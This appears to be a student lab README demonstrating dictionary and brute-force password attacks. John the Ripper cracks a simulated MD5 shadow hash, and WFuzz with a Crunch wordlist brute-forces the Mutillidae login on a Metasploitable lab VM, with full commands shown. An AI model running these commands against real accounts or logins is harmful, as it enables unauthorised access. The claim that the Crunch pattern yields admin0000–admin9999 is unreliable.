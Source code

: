 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

bash
Copy
Edit
john --show hashes1a.txt
✅ John successfully cracked the hash for password1234.

🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch
🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

🔐 Step-by-Step
1. Generate a password list with Crunch
bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

We inserted the real password adminpass near the top for demo purposes

2. Run WFuzz attack
bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst

Correct password adminpass was successfully identified

3. Verify Login
Visited the login URL in a browser

Used:

Username: admin

Password: adminpass

✅ Login was successful

🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)

